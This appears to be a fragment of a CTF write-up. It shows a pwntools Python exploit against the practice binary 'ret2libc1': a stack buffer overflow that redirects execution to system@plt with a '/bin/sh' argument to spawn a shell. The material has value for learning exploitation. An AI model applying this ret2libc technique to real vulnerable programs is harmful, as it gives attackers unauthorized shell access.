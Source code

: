 ![image-20220123230431106](/assets/img/2022/image-20220123230431106.png)

```python
from pwn import *


r = process('./ret2libc1')

r.recvuntil('RET2LIBC >_<\n')

bin_sh = 0x08048720 # /bin/sh
system = 0x8048460 # <system@plt>

p = 'a'*(0x6c+0x4)
p += p32(system)
p += 'b'*4
p += p32(bin_sh)


r.sendline(p)

r.interactive()
```
